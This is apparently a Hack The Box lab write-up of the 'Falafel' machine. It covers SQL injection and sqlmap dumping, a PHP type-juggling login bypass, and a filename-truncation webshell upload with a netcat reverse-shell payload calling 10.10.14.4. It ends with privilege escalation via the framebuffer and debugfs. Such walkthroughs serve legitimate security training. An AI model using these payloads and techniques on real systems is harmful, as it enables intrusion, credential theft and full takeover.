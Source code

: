 ## Falafel

https://app.hackthebox.com/machines/Falafel

### www-data

Open 10.10.10.73:22
Open 10.10.10.73:80

/robots.txt has a entry with \*.txt. We can include this extension on our directory enumeration.

**GoBuster**
/assets               (Status: 301)
/connection.php       (Status: 200)
/index.php            (Status: 200)
/login.php            (Status: 200)
/profile.php          (Status: 302)
/robots.txt           (Status: 200)
/upload.php           (Status: 302)
/uploads              (Status: 301)
/cyberlaw.txt        (Status: 200)

**cyberlaw.txt**
```
From: Falafel Network Admin (admin@falafel.htb)
Subject: URGENT!! MALICIOUS SITE TAKE OVER!
Date: November 25, 2017 3:30:58 PM PDT
To: lawyers@falafel.htb, devs@falafel.htb
Delivery-Date: Tue, 25 Nov 2017 15:31:01 -0700
Mime-Version: 1.0
X-Spam-Status: score=3.7 tests=DNS_FROM_RFC_POST, HTML_00_10, HTML_MESSAGE, HTML_SHORT_LENGTH version=3.1.7
X-Spam-Level: ***

A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.

Dear lawyers, please handle him. I believe Cyberlaw is on our side.
Dear develpors, fix this broken site ASAP.

~admin
```

#### SQL Injection
If user exists: Wrong identification : admin  
If it doesn't: Try again..  
If omit password parameter like this `username=admin'--+-%26password%3dadmin`, we get: Invalid username/password.  

We can enumerate users with wfuzz.
```
wfuzz -c -w /opt/SecLists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http://10.10.10.73/login.php --hh 7074

000086:  C=200    102 L      659 W         7091 Ch        "admin"
001883:  C=200    102 L      659 W         7091 Ch        "chris"
```

<br>

#### SQL Payload
```
username=admin' OR 1=1--+-&password=admin
username=admin' OR 1=2--+-&password=admin
```

We can use sqlmap to dump the database, but we need to give the response equivalent to "true", in this case: Wrong identification...
```
sqlmap -r login.request --level 5 --risk 3 --batch --string "Wrong identification" --dump
```

Testing manually
```
admin' and substr(password,1,1) = '0'-- -
```

Automated exploit on injection.py.

Extracted hash: d4ee02a22fc872e36d9e3751ba72ddc8. Login with chris:juggling

<br>

#### Type Juggling
By the hints, we can test PHP Type Juggling in login. Since we known the admin's hash starts with 0e, we can find a [hash collision](https://news.ycombinator.com/item?id=9484757).

```
echo -n 240610708 | md5sum
0e462097431906509019562988736854  -
```

Login with admin:240610708.

<br>

#### File Upload
In the upload file function, we see that wget is being used.

![Pasted image 20240527113521](https://github.com/b1d0ws/OSWE/assets/58514930/635fffc9-480e-41d5-8ce0-d4143c3056dd)

If we try a .php file, it returns "Bad extension".

If we upload a very long name file, we get "The name is too long, 501 chars total."

Searching for "max character length linux file", we discover that linux has a maximum filename length of 255 characters, so we can try something close to this on uploading a file that cuts the .gif extension.

```
# Get the print and add '.gif'

# Too long
python -c 'print("A" * 240)'

# Successful
python -c 'print("A" * 230)'

# Add different letters to see where it cuts the filename
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFG.

# Upload the file as with webshell:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABC.php.gif

# Get shell on /uploads/0527-1801_c5afa75590294983/FILENAME.php

# Body post request to reverse shell
cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|bash+-i+2>%261|nc+10.10.14.4+1337+>/tmp/f
```

### www-data to moshe
moshe's password is the same as database and we can find it on `/var/www/html/connection.php`:falafelIsReallyTasty.

<br>

### moshe to yossi
We notice that yossi is logged on the host with 'w' command.
```
w
yossi    tty1   07:02   9:16m  0.16s  0.10s -bash
```

Looking at groups, moshe belongs to 'audio' and 'video'.

This means we can cat the yossi's frame buffer.
```
cat /dev/fb0 > screenshot.raw
```

To correctly see the image, we need to get its resolution on `/sys/class/graphics/fb0`
```
cat /sys/class/graphics/fb0/virtual_size
1176,885
```

You can get the file through nc and open it on your kali with gimp.

![1526605221968](https://github.com/b1d0ws/OSWE/assets/58514930/37eced09-7934-4eb7-8726-23da86ed6d4e)

The password **MoshePlzStopHackingMe!** works for yossi.

<br>

### yossi to root
Since yossi belongs to "disk" group, we can debug the file system.
```
debugfs /dev/sda1
debugfs:  ls /root
debugfs:  cat /root/root.txt
```

We could also get root SSH key inside .ssh.

